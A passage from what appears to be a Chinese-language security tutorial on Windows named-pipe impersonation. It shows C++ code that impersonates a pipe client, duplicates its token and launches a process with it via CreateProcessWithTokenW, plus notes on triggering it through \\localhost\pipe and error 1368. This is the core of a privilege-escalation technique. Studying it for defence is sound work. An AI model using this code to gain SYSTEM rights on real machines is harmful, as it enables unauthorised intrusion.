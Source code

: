 ```plain
    if (ImpersonateNamedPipeClient(NamedPipehandle) == false) {
        cout << "ImpersonateNamedPipeClient " << GetLastError() << endl;
        getchar();
    }

    HANDLE hToken;
    if (OpenThreadToken(GetCurrentThread(), TOKEN_ALL_ACCESS, FALSE, &hToken) == false)
    {
        cout << "OpenThreadToken " << GetLastError() << endl;
        getchar();
    }
    HANDLE hSystemTokenDup = INVALID_HANDLE_VALUE;

    if (DuplicateTokenEx(hToken, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenPrimary, &hSystemTokenDup) == false) {
        cout << "DuplicateTokenEx " << GetLastError() << endl;
        getchar();
    }

    PROCESS_INFORMATION pi = { 0 };
    STARTUPINFO si = { 0 };
    si.cb = sizeof(STARTUPINFO);

    if (CreateProcessWithTokenW(hSystemTokenDup, LOGON_WITH_PROFILE, NULL, cmd, 0x00000400, NULL, NULL, &si, &pi) == false) {
        cout << "CreateProcessWithTokenW " << GetLastError() << endl;
        getchar();
    }
    cin.get();
    return 0;
}
```

我在具备system的权限上cmd输入了`echo 1 > \\localhost\pipe\endlessparadox`把输入写入命名管道，之后服务端将拉起一个新的具备客户端的权限，值得注意的是localhost是固定的写法，如何写成`\\.\`这导致模拟失败, windows error code 显示1368，这代表在从该管道读取数据之前，无法使用命名管道进行模拟，下面是正常效果：

[![](assets/1705982113-5f1e6935de0cf15b5c20b31b6c3ab51f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120230124-c74d1188-b7a4-1.png)
